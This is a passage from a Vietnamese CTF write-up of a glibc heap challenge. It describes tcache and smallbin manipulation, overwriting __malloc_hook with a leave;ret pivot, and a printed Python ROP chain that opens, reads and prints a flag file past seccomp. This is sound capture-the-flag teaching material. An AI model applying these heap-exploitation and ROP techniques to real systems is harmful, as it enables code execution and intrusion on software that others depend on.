  

Nó so sánh r11 và rbp mà `r11` là giá trị max của số bins trong 1 tcache bins. Hmm. Còn `r10` thì tiếp tục đoán là số bins của size 0x110 trong tcachebins. Nếu nhỏ hơn thì nó mới nhảy tới đoạn crash. \(￣︶￣*\))  

Xem lại trong source thì thấy có đoạn này :  

  

Đó chính là đoạn check trên. Đoạn crash sẽ là `bin->bk = bck`.  


Mặc dù `calloc` không lấy từ `tcache` tuy nhiên động vào `smallbin` nó vẫn lấy trong `tcache` ra check cái gì đó. Do đó, trước tiên, chúng ta cần fill đầy tcache của size đó đã thì nó sẽ không nhảy vào đoạn này nữa :))) Problem solve 😁 Chúng ta sẽ clear tcache cùng lúc với clear tcache `0x1a0`.  

Sau đó thì làm tiếp như trên ta sẽ được malloc trả về giá trị của `tcache`.  

  

## STEP 5 : Overwrite __malloc_hook then read flag  

### STEP 5.1 : Put __malloc_hook to tcache bins 0x220  

Chúng ta malloc được lên `tcache perthread struct` nên việc này khá dễ dàng, chỉ cần tính toán đúng offset là được.  
Tuy nhiên, đến đây sau khi tính toán mình mới phát hiện ra chunk size `0x100` không đủ để ghi đè tới tcache 0x220 :(( Sad. Lại phải quay lại các bước trên để chỉnh offset các kiểu. 😥 Nhưng âu cũng là cách để nắm lại được cả 1 process.  


### STEP 5.2 : Buy super house  

Khi mua super house, nó sẽ dùng malloc với size là 0x217 nên nó sẽ lấy từ tcache 0x220 ra như vậy sẽ malloc tới `__malloc_hook`.  

### STEP 5.3 : Rop on the heap  
Do bài này có seccomp không gọi được system nên không đơn giản là ghi `one_gadget` lên `__malloc_hook`.  

Ta sẽ đặt breakpoint tại `__malloc_hook` để xem trạng thái của các thanh ghi.  

  

Tại đây, ta thấy `Rbp` mang giá trị là kích thước truyền vào của hàm `malloc`. Do đó, nếu ta tiến hành ghi lên `__malloc_hook= leave;ret;` và `size = heap_addr` thì sau đó chương trình sẽ tiến hành rop trên heap :v   

Rop thì mình copy nguyên của người ta :v  

```python
payload = b'/home/hacmao/flag'.ljust(0x20, b'\x00')

# ROP to open the flag file
# Flag file's file descriptor will be 3
payload += p64(pop_rdi) + p64(heap+0xfe0 - 0x10)
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rax) + p64(2)
payload += p64(syscall)

# ROP to read the flag file's contents right into heapbase
payload += p64(pop_rdi) + p64(3)
payload += p64(pop_rsi) + p64(heap)
payload += p64(pop_rdx) + p64(0x100)
payload += p64(pop_rax) + p64(0)
payload += p64(syscall)

# ROP to write the contents of heapbase right into stdout
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi) + p64(heap)
payload += p64(pop_rdx) + p64(0x100)
payload += p64(pop_rax) + p64(1)
payload += p64(syscall)

```  

  

## Kết thúc  

Qua bài này mình học được khá nhiều thức, heap, unsorted bin, smallbins các kiểu. Mình cảm thấy rất vui khi làm bài này :v Dạo gần đây mình mới thấy lại được cảm giác hứng thú khi chơi pwn :v Vui vl :v cảm giác như một người nghệ sĩ vậy. 🤣  

Lớn rồi mà vẫn còn chơi CTF. Bao lâu sẽ dừng đây. Dù cho kết quả của thi SVATTT sắp tới thế nào cũng không quan trọng với mình. Quan trọng là những challenge mình sẽ đối mặt sẽ là như thế nào. Mong tác giả có tâm ra đề hay ho một tí. 😋😋😋

Mặc dù feed ở vòng loại nhưng mình vẫn thấy đó là một challenge khá hay. Mặc dù cả giải không tìm ra lỗi và ngồi reverse. Nhưng mình cũng học được nhiều điều.Reverse C++ (づ￣ 3￣)づ  

Chắc bạn nào phải kiên nhẫn lắm mới đọc được tới đây :v Chúc bạn có một ngày tốt lành và tìm được niềm vui khi chơi CTF :v  


